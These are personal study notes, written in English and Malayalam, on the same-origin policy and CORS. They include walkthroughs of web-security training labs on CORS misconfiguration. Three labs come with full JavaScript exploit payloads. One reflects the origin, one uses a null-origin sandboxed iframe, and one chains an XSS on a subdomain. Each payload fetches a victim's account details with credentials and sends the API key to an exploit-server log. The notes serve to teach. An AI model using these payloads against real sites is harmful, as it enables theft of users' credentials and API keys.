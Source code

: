 ## Cross-origin resource sharing:
### same origin policy:
     -> what is an ORIGIN?
      
--> `https://     websecurity-academy.com:      443/somepath` 
          scheme     +        domain                                  +   port         =same origin   (ORIGIN)

          some same-origin examples->
                    1) `https://websecurity-academy.com/somepath`
                    2) `https://websecurity-academy.com/anotherpath`
                    3) `https://websecurity-academy.com/againanotherpath`
-->when we have the same scheme,same origin and same port(ivide 443 kodukunil karanam https inte default port aan 443) regardless of the path(/somepath) ,it is considered to be the same origin

           some none-origin examples->
                    1) www.websecurity-academy.com/otherpath
                    2) websecurity-academy:7777   (diffrnt port)
                    3) ftp://websecurity-academy/somepath  (diffrnt scheme)
                    4) https://academy.websecurity-adacemy/somepath (ivide difrnt domain)
                    5) http://websecurity-academy.com:8080   (difrnt port)

-->different subdomain,port,sheme oke varumbol ath different origins aan
-->athayath ith browser implement chyuna oru technique aan.for example: oru shopping app um oru banking app namal browser il eduthu enn vecho.
-->ee shopping app malicious aanengil ith namude banking aap ilek banking info kitanayi oru request send chyum however when the browser seees that request,it will check the origin of the request and it will check where the request originated from.ivide ath shoppingapp.com enna domain il ninaan request banking appilek varunath and that domain is different from the domain of the banking app.so the browser rejects the request

### CORS:
-->moderm webapplications in avarude sumbomains umayi interact chyendi varum apol ee same origin policy undayal ath nadakil karanam browser reject chyum.so athin oru pariharaman namude CORS.
-->CORS is a browser mechanism which enables controlled access to resources located outside of a given domain.in simple, jwhere do you allow requests to come from
-->==CORS is a mechanism that uses http headers to define origins that the browser permit loading resources==
-->CORS make use of 2 http headers:
      1) Access-Control-Allow-Origin
      2) Access-Control-Allow-Credentials

-->ee Access-Control-Allow-Origin ennath namal chyuna requset in response aayi server tharuna oru header aan.rand domain thamil origin share chyan permission undengil server ath ee header response aayi namuk tharum
-->The Access-Control-Allow-Origin response header indicates whether the response can be shared with requesting code from the given origin
-->http header il namal kanuna `host: header` ennal namuk eth site il ninan data edukendath (if GET) allengil eth site ilek aan specific action nadathendath (if POST).athuple `origin: header` ennal ariyalo current url/site address
-->Access-Control-Allow-Origin il chyumbol.for example shopping site und athilek analytics subdomain ilninum data kitanam apol namal :
            `GET /data HTTP/1.1` 
            `Host: robust-website.com` 
            `Origin : https://shopping.com
-->ithinte response:
            `HTTP/1.1 200 OK`
            `Access-Control-Allow-Origin: https://analytics.shopping.com
-->ipol shopping.com il ninum products inte details anlytics.shopping.com il ninum kitum oru prashnavum ila
-->==Access-Control-Allow-Origin allows you to only access public pages in the application. inorder to access authenticated pages you need to use another header: Access-Control-Allow-Credentials header==
-->Access-Control-Allow-Credentials response header allows cookies (or other user credentials) to be included in cross-origin requests
-->athayath matooru domain il ninum namuk account details edukanam.ith ellavarkum edukan patila authorized aaya aalukalk mathrame access ulloo.so response il  Access-Control-Allow-Origin=domain, Access-Control-Allow-Credentials=true ennu kanan patum

==============================================================

         Lab-1(CORS vulnerability with basic origin reflection)
-->ivide namal lab open chyuka enit namal login chyuka.apol namude account open aakum.aa open aakuna requests elam note chyuka
-->ithil oru json /GET request kanam `/accountDetails` enna path ilek pokuna request
-->athile response il nokiyal kanam Access-Control-Allow-Credentials: true enn
-->athayath cors use chyunund athum important aayathan athukondan ee header response il varunath
-->athupole response il nokiyal kanam namude `details,api key` oke kidakunath
-->so ee request repeater il viduka enit oru puthiya header iduka ie, origin: hello.com enit send adichal kanam response il Access-Control-Allow-Origin: hello.com enn athayath eth domain il ninum request vanalum server accept chyum
-->ini namuk oru js malicious code undakanam adminte api key edukan
-->SCRIPT:
          <script> 
               var req = new XMLHttpRequest(); 
               req.onload = reqListener;
               req.open('get','$url/accountDetails',true); 
               req.withCredentials = true;                                   ----------1)
               req.send(); 
               
               function reqListener() { 
                        location='/log?key='+this.responseText; 
                }; 
            </script>

-->ivide `<html ,<body oke kodukanam keto` enale oru website il work aaku
-->ivide url il correct url kodukuka enit endpoint reeqeust il nokiyal kanam `/accountDetails` aa request il aanalo namal chyunath so aa path correct kodukuka.thuakam https:// idanam ok.
-->enit exploit server il poi deliver to victim adichit access log il poi nokiyal kanam adminte api key kidakunath so ath copy chyth submit chythal lab solve aayi
-->burp il request um response um nokuka.reqeust il nokiyal kanam athil session cookie und response il nokiyal kanam  Access-Control-Allow-Credentials: true enn so athinarthma ee session cookie aan ivide credential aayi use chyunath
--> ==Access-Control-Allow-Credentials allows credential to be passed in the request that could be cookies,authorization headers,certificates... but here the app makes use of a session cookie==
-->ivide 1) il namal credentals true kodukumbol aaru ee link ilek poiyalum avarude details,api key oke kitum
-->sradhikuka real life il namal thane namude server il ee script add chyanam.athayth namal control chyuna site il ee script add chyanam ennale work aaku.ivide admin ee page il varumbol adminte details namuk kitunu ok ath namal ormichirikanam
-->athayath josu.com/malicuous  enna pathil aan namal script chythirikunath ennal aa link victim in kodukanam apol avan click chyumbol ath work aayikolum
-->oru karyam koodi sredhikuka ivide namude respone il Access-Control-Allow-Credentials: true enna http header kanikunath kondan namuk ee task chyan patunath.ith ilengil namuk credentials kitila.athinte koode Access-Control-Allow-Origin enna response header namal origin: reqeust header vazhi test chythapol eth originum accept chyunathayi kandu athukondan work aakunath ilengil vere oru siteil ninum ee request borwser accept chyilla

==============================================================

          Lab-2(CORS vulnerability with trusted null origin)
-->ividem namal nerthe pole login chyuka.login chyumbol namuk load aayi varuna requests ellam nokuka athil oru json GET request und ath repeater il iduk
-->Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
-->nerthe pole aa request il origin: http://hello.com ennadichal response il Access-Control-Allow-Origin: hello.com enn kanikunil.ee header polum kanikunila
-->but namuk Access-Control-Allow-Credential: true enn kanikunund.so namuk publid and private resources edukan patum maryathak exploit chythal
-->so ivide origin: enth url koduthal Access-Control-Allow-Origin response header varathathkond origin: null enn koduth send adikumbol Access-Control-Allow-Origin response il kanikunund
-->so ini namuk script undakanam.ivide origin null ayathkond thane namude scritp oru sandbox origin inte ullil aaki idanam ennale work aaku
-->SCRIPT:
        <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
                var req = new XMLHttpRequest();
                req.onload = reqListener;
                req.open('get','https://0aff00f804a525b8c0e3306b0065006d.web-security-academy.net/accountDetails',true);
                req.withCredentials = true;
                req.send();
                function reqListener() {
                     location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
                };                                                                   ---1)
<               /script>">
        </iframe>
-->deliver chythit access log adichal apikey kitum ath submit chythal solve aayi
-->ivide 1) il nokiyal kanam athayath ee response eth pathilek varanam ennath aan kanikunath. athayath admin inte key ee parayuna pathil vannolum

==============================================================

            LaB-3(CORS vulnerability with trusted insecure protocols)
-->ividem namal login chythathin shesham GET /accountDetails enna json request eduth repeateril idunu.athinte response il Access-Control-Allow-Credentials: true enn und athupole api key yum und
-->so namal request il origin: https://something.com enn koduth send chyumbol Access-Control-Allow-Origin: enn header response il varunila.origin value null akumbozhum varunila
-->so namal host: header il ninum domain eduth https://doman.com enn koduth send chyumbol Access-Control-Allow-Origin:https://originaldomain.com enn reflect chyunund.so ini namuk ee domainte munnilayi oru fake subdoman koduth send chythal athum accept chyunundon nokanam
-->so origin: https://malicious.0a9e00400.....web-security-academy.net  enukodukumbol accept chyunund.so athinartham ee url umayi bandhapett eth subdomainum accept chyunund server
-->so ivide lab il stok.0a9e004......web-security-academy.net enna subdomain il site il ulla products inte stock chech chyuna oru request und so athil productid= enn parameter il <script>alert(3)</script> enn adich athinte response browseril nokumbol xss work aakunund.so namuk ee xss ee subdomainil cherth xss trigger chyipich admintem mattu usersintem apikey edukam
-->athayath alert alla oru script thane undaki athil mattullavarude apikey retrieve chyuna reethiyil ulla script undaki chyanam
-->SCRIPT:
          <script> document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>

-->ivide last exploitserver inte urrl kodukanam baki rand sthalathum namude site inte host name koduthal mathi
-->ini deliver to victim adich access log adichal adminte apikey kitum

==============================================================

        Lab-4(CORS vulnerability with internal network pivot attack)
-->ith expert lab aan 4 script undakanam javascript so difficult aan